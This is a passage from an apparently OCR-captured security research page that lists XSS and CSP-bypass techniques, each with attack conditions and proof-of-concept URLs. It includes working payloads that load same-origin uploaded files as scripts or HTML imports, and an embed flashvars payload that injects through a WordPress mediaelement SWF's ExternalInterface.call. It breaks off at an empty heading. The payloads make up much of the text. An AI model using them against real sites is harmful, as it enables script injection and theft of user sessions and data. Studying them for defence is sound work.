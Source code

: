 #### File upload function

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. Hosting user-uploaded files on the same origin

PoCs:

https://vulnerabledoma.in/bypass/text?q=%3Cscript%20src=/bypass/usercontent/xss.js%3E%3C/script%3E

```html
<script src=/bypass/usercontent/xss.js></script>
```

(Chrome only) 

https://vulnerabledoma.in/bypass/text?q=%3Clink%20rel=import%20href=/bypass/usercontent/icon.jpg%3E

```html
<link rel=import href=/bypass/usercontent/icon.jpg>
```

#### `flashvars` Use with Flash

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. `ExnternalInterface.call()`There is Flash passing the parameter string unescaped to the same origin
3. Flash can be used in the target environment

supplement:

`flashvars`Attributes let you pass parameters without having to provide Flash parameters directly in the query. (= On the Flash side, even if passing parameters from the URL is restricted as a countermeasure against XSS by opening Flash directly, it can be passed.) In addition, when there is a CSP `flashvars`such `Content-Security-Policy: default-src 'self'`as also available.

PoCs:

https://vulnerabledoma.in/bypass/text?csp=self&q=%3Cembed%20name=a%20flashvars=%27autoplay=true%26file=%22})%22)-(alert=alert(1)))}catch(e){}//%27%20allowscriptaccess=always%20src=//vulnerabledoma.in/bypass/wp-includes/js/mediaelement/flashmediaelement.swf%3E

```html
<embed name=a flashvars='autoplay=true&file="})\")-(alert=alert(1)))}catch(e){}//' allowscriptaccess=always src=//vulnerabledoma.in/bypass/wp-includes/js/mediaelement/flashmediaelement.swf>
```

ActionScript:

```actionscript
ExternalInterface.call("setTimeout", ExternalInterface.objectID + '_event' + "('" + eventName + "'," + eventValues + ")", 0);
```

#### Use with `ExternalInterface.objectID` Flash `ExternalInterface.call()`
